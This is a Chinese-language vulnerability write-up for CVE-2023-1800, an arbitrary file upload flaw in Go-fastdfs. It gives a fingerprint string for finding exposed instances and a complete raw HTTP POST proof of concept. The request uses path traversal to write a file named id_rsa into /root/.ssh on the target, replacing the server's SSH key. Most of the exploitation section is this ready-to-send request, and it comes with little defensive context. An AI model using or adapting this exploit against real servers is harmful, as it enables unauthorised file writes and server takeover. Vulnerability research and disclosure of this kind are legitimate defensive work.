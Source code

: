 # Go-fastdfs upload 任意文件上传漏洞 CVE-2023-1800

# Go-fastdfs upload 任意文件上传漏洞 CVE-2023-1800

## 漏洞描述

Go-fastdfs upload 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，攻击服务器

## 漏洞影响

```
Go-fastdfs
```

## 网络测绘

```
"go-fastdfs"
```

## 漏洞复现

主页面

![image-20230417094508409](images/image-20230417094508409.png)

验证POC

```
POST /group1/upload HTTP/1.1
Host: 
Content-Length: 951
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryigj9M9EJykZc9u53
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="file"; filename="id"
Content-Type: application/octet-stream

test
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="scene"

default
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="filename"

id_rsa
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="output"

json2
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="path"

../../../../../root/.ssh
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="code"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="auth_token"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="submit"

upload
------WebKitFormBoundaryigj9M9EJykZc9u53--
```

![image-20230417100221820](images/image-20230417100221820.png)

![image-20230417100230696](images/image-20230417100230696.png)

